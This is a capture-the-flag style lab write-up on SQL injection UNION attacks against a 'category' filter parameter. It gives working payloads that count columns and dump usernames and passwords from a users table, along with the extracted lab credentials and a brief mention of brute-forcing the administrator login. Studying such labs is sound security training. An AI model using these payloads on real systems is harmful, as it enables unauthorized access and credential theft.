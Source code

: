 # Lab: SQL injection UNION attack, retrieving multiple values in a single column
## Description

Vulnerable path and parameter `/filter?category=Gifts`

Found the number of columns (2) used in the SQL query using this payload:
```
'+UNION+SELECT+NULL,NULL--
```

Extract username and passwords using:
```
'+UNION+SELECT+NULL,username+FROM+users--
'+UNION+SELECT+NULL,password+FROM+users--
```

The data extracted was
```
dtzdllozgs4ml7pemuh2
tq80az4zoy8u6i7nol1v
c422t611f6wkf5m4l9f5
administrator
carlos
wiener
```

This output was not returned in order, so simple brute-force of the passwords gathered was used against the `administrator` account. In a real-world secnario, this would have resulted in the account getting logged out or the admin getting notified. To avoid this, we can do two things:
1) Combine username and password in the same column
2) Order By

Well, turns out using `ORDER BY 1` didn't work after all, data was still returned in an un-ordered fasion... 
```
'+UNION+SELECT+NULL,password+FROM+users+order+by+1--
```
So combining the values `username` and `password` is a must...
```
'+UNION+SELECT+NULL,username||'%3a'||password+FROM+users+order+by+1--
```



## Solution
`'+UNION+SELECT+NULL,username||'%3a'||password+FROM+users+order+by+1--`

returned

`administrator:c422t611f6wkf5m4l9f5`
